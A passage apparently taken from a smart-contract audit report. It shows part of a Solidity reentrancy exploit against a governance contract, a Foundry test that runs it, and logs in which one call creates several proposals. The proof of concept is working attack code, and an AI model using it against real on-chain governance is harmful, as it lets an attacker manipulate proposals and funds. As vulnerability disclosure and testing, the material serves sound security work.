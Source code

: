 ```solidity
        
        targets[0] = address(kernel);
        values[0] = 0;
        signatures[0] = "";
        calldatas[0] = "";
        if(depth++ < 10) {
            calldatas[0] = abi.encodeWithSelector(
                kernel.executeAction.selector,
                Actions.ActivatePolicy,
                address(this)
            );
        }

        bytes memory data = address(governorBravoDelegator).functionCall(
            abi.encodeWithSignature(
                "propose(address[],uint256[],string[],bytes[],string)",
                targets,
                values,
                signatures,
                calldatas,
                description
            )
        );
        uint256 proposalId = abi.decode(data, (uint256));
        console2.log("created proposal", proposalId);
    }
}
```

Foundry test case:
```solidity
function testExploit2() public {
    ReentrancyExploit exploit = new ReentrancyExploit();
    
    vm.prank(alice);
    gohm.transfer(address(exploit), 110_000e18);
    gohm.checkpointVotes(address(exploit));

    exploit.attack(governorBravoDelegator, kernel);
}
```

Results:
```shell
[PASS] testExploit2() (gas: 5162466)
Logs:
  reentrancy
  reentrancy
  reentrancy
  reentrancy
  reentrancy
  reentrancy
  reentrancy
  reentrancy
  reentrancy
  reentrancy
  reentrancy
  created proposal 12
  created proposal 11
  created proposal 10
  created proposal 9
  created proposal 8
  created proposal 7
  created proposal 6
```